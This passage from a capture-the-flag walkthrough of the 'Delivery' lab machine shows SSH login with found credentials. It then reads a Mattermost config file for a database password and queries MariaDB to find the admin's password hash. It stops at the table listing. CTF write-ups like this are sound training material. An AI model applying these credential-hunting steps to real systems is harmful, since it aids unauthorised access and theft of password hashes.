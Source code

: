 ### 4. Get a shell
With these credentials I can log in over SSH.
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh maildeliverer@delivery.htb
maildeliverer@delivery.htb's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$
```

### 5. Enumerate from user
Looking through what's accessable from the user, there is not a whole lot to see at first. However by taking a dive into some of the configuration files for mattermost, there is a line in the app's config.json which seems like a hint:
```json
Settings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
...
```
From here I figure I am probably looking for some type of hash in the database.

### 6. Get the admin's hash
The admin's hash can be retrieved from the mattermost SQL database.
```bash
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 258
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use mattermost; show tables;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
+------------------------+
| Tables_in_mattermost   |
+------------------------+
```